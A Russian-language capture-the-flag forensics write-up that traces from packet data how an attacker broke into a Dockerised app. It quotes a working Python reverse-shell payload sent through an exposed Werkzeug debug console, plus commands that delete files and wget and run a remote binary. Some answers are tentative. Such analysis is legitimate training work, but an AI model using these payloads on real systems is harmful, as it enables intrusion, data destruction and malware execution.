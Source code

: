 

Возможно уязвимое приложение в докере (`172.18.0.3`) на порту `5000` (и далее реверс шелл питоновский на `9001`)

# Условие 1
14. Враг врага 2 - 1

Разведка донесла, что APT «Таймырский муксун» недавно провернул изящную операцию против «Таежного кролика». Поговаривают, что в инфраструктуру «Кролика» было внедрено вредоносное ПО, которое успело наделать шума. Теперь наша задача — докопаться до истины. Вперёд, охотники за «кроличьими» секретами!

Необходимые файлы должны быть на вашем оборудовании. К заданию относится образ linux системы.

- 1. Как был получен первичный доступ к системе? (2 балла)

# Ответ 1

### Открытие консоли (пакет 565-566) спустя 11 секунд после открытия главной страницы сайта:

http://10.10.10.3:5000/console?__debugger__=yes&cmd=resource&f=debugger.js

### Реверс шелл (пакет 761) на порт 9001:

http://10.10.10.3:5000/console?&__debugger__=yes&cmd=import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.10.12%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF

```
"root@7a5a67189bc9:/app# "
```

# Условие 2

15. Враг врага 2 - 2

- 2. С каких IP-адресов поступала полезная нагрузка? (2 балла)

# Ответ 2

Очень много передачи данных с `81.177.221.242` (сервер откуда скачали app)

Атака с `10.10.10.12` через `10.10.10.3` (прокси?)

# Условие 3

16. Враг врага 2 - 3

- 3. Какие механизмы защиты от детектирования применены в вредоносном приложении? (4/8 баллов)

# Ответ 3

```
CUSTOM_write found, patched.\r\nok\r\n
```

Хз что это

# Условие 4

17. Враг врага 2 - 4

- 4. В какое время было начато исполнение вредоносной нагрузки? (13 баллов)

# Ответ 4

Примерно с пакета 812 (Jan 22 22:34:20) (с осмотра):
```
ls /dev
```

Пакет 885
```
mount /dev/sda2 /mnt
cd /mnt/home
cd ioal
```
Пакет 945
```
rm .*
```
```
cd ..
wget http://81.177.221.242:8125/app
chmod +x ./app
./app
```
На что ему приложение сказало (несколько раз) (пакет 1433):
```
CUSTOM_write found, patched.\r\nok\r\n
```
И потом (1535):
```
